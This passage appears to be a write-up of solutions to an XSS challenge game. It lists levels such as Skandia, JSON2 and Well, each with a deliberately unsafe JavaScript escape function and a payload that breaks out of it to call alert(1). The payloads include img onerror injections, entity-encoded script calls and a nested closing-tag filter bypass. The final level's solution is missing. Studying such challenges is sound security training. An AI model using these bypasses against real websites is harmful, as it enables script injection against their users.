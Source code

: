 ```
Comment#--><img src onerror=alert(1)
```

- HTML source

```
<!----><img src onerror=alert(1)-->
```

## Skandia

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```

## Well

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```

- Solution
